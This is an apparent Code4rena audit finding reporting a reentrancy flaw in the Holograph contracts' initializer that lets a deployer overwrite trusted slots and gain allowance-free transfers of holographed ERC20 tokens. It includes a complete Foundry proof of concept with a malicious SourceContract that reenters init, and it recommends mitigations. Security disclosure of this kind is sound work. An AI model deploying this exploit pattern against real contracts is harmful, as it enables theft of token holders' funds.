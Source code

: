 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- sponsor confirmed
- selected for report
- responded

# [Holographable tokens can be reinitialized](https://github.com/code-423n4/2022-10-holograph-findings/issues/215) 

# Lines of code

https://github.com/code-423n4/2022-10-holograph/blob/f8c2eae866280a1acfdc8a8352401ed031be1373/contracts/enforcer/Holographer.sol#L147-L169


# Vulnerability details

When new holographable tokens are created, they typically set a state variable that holds the address of the holograph contract. When creation is done through the `HolographFactory`, the holograph contract is [passed in as a parameter](https://github.com/code-423n4/2022-10-holograph/blob/f8c2eae866280a1acfdc8a8352401ed031be1373/contracts/HolographFactory.sol#L252) to the holographable contract's initializer function. Under normal circumstances, this would ensure that the hologrpahable asset stores a trusted holograph contract address in its `_holographSlot`.

However, the initializer is vulnerable to reentrancy and the `_holographSlot` can be set to an untrusted contract address. This occurs because before the initialization is complete, the Holographer makes a [delegate call](https://github.com/code-423n4/2022-10-holograph/blob/f8c2eae866280a1acfdc8a8352401ed031be1373/contracts/enforcer/Holographer.sol#L162-L164) to a corresponding enforcer contract. From here, the enforcer contract makes an [optional call](https://github.com/code-423n4/2022-10-holograph/blob/f8c2eae866280a1acfdc8a8352401ed031be1373/contracts/enforcer/HolographERC20.sol#L241) to the source contract in an attempt to intialize it. This call can be used to reenter into the Holographer contract's initialize function before the first one has been completed and overwrite key variables such as the `_adminslot`, the `_holographSlot` and the `_sourceContractSlot`. 

One way in which this becomes problematic is because of how holographed ERC20s perform `transferFrom` calls. Holographed ERC20s by default allow two special addresses to [transfer](https://github.com/code-423n4/2022-10-holograph/blob/f8c2eae866280a1acfdc8a8352401ed031be1373/contracts/enforcer/HolographERC20.sol#L527) assets on behalf of other users without an allowance. These addresses are calculated by calling `_holograph().getBridge()` and `_holograph().getOperator()` respectively. With the above described reentrancy issue, `_holograph().getBridge()` and `_holograph().getOperator()` can return arbitrary addresses. This means that newly created holographed ERC20 tokens can be prone to unauthorized transfers. These assets will have been deployed by the HolographFactory and may look and feel like a safe holographable token to users but they can come with a built-in rugpull vector.

## Proof of Concept:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../contracts/HolographFactory.sol";
import "../contracts/HolographRegistry.sol";
import "../contracts/Holograph.sol";
import "../contracts/enforcer/HolographERC20.sol";

//Contract used to show reentrancy in initializer
contract SourceContract {
    address public holographer;
    MockContract public mc;

    constructor() {
         mc = new MockContract();
    }

    //function that reenters the holographer and sets this contract as the new holograph slot
    function init(bytes memory initPayload) external returns(bytes4) {
        assembly {
            sstore(holographer.slot, caller())
        }
        bytes memory initCode = abi.encode(abi.encode(uint32(1), address(this), bytes32("0xabc"), address(this)), bytes("0x0")); 
        holographer.call(abi.encodeWithSignature("init(bytes)", initCode));
        return InitializableInterface.init.selector;
    }

    function getRegistry() external view returns (address) {
        return address(this);
    }

    function getReservedContractTypeAddress(bytes32 contractType) external view returns (address) {
        return address(mc);
    }

    function isTheHolograph() external pure returns (bool) {
        return true;
    }

}

//simple extension contract to return easily during reinitialization
contract MockContract {
    constructor() {}

    function init(bytes memory initPayload) external pure returns(bytes4) {
        return InitializableInterface.init.selector;
    }
}

contract HolographTest is Test {
    DeploymentConfig public config;
    Verification public verifiedSignature;
    HolographFactory public hf;
    HolographRegistry public hr;
    Holograph public h;
    HolographERC20 public he20;

    uint256 internal userPrivateKey;
    address internal hrAdmin;
    mapping(uint256 => bool) public _burnedTokens;
    address internal user;
    function setUp() public {
        //Creating all of the required objects
        hf = new HolographFactory();
        hr = new HolographRegistry();
        h = new Holograph();
        he20 = new HolographERC20();

        //Setting up the registry admin
        hrAdmin = vm.addr(100);

        //Creating factory, holograph, and registry init payloads
        bytes memory hfInitPayload = abi.encode(address(h), address(hr));
        hf.init(hfInitPayload);
        bytes memory hInitPayload = abi.encode(uint32(0),address(1),address(hf),address(1),address(1),address(hr),address(1),address(1));
        h.init(hInitPayload);
        bytes32[] memory reservedTypes = new bytes32[](1);
        reservedTypes[0] = "0xabc";
        bytes memory hrInitPayload = abi.encode(address(h), reservedTypes);

        //Setting up a contract type address for the ERC20 enforcer
        vm.startPrank(hrAdmin, hrAdmin);
        hr.init(hrInitPayload);
        hr.setContractTypeAddress(reservedTypes[0], address(he20));
        vm.stopPrank();

        //Keys used to sign transaction for deployment
        userPrivateKey = 0x1337;
        user = vm.addr(userPrivateKey);
    }

    function testDeployShadyHolographer() public {
        //setting up the configuration, contract type is not important
        config.contractType = "0xabc";
        config.chainType = 1;
        config.salt = "0x12345";
        config.byteCode = type(SourceContract).creationCode;
        bytes memory initCode = "0x123";

        //giving our token some semi-realistic metadata
        config.initCode = abi.encode("HToken", "HT", uint8(18), uint256(0), "HTdomainSeparator", "HTdomainVersion", false, initCode);

        //creating the hash for our user to sign
        bytes32 hash = keccak256(
            abi.encodePacked(
                config.contractType,
                config.chainType,
                config.salt,
                keccak256(config.byteCode),
                keccak256(config.initCode),
                user
            ));

        //signing the hash and creating the verified signature
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, hash);
        verifiedSignature.r = r;
        verifiedSignature.v = v;
        verifiedSignature.s = s;

        //deploying our new source contract and holographable contract pair
        hf.deployHolographableContract(config, verifiedSignature, user);

        //after the reentrancy has affected the initialization, we grab the holographer address from the registry
        address payable newHolographAsset = payable(hr.getHolographedHashAddress(hash));

        //verify that the _holographSlot in the holographer contract points to our SourceContract and not the trusted holograph contract
        assertEq(SourceContract(Holographer(newHolographAsset).getHolograph()).isTheHolograph(), true);
    }
}
```
## Recommended Mitigation Steps

Consider checking whether the contract is in an "initializing" phase such as is done in OpenZeppelin's [`Initializable`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/a1948250ab8c441f6d327a65754cb20d2b1b4554/contracts/proxy/utils/Initializable.sol#L83) library to prevent reentrancy during initialization. Additionally, if the bridge and operators are not intended to transfer tokens directly, consider removing the logic that allows them to bypass the allowance requirements.
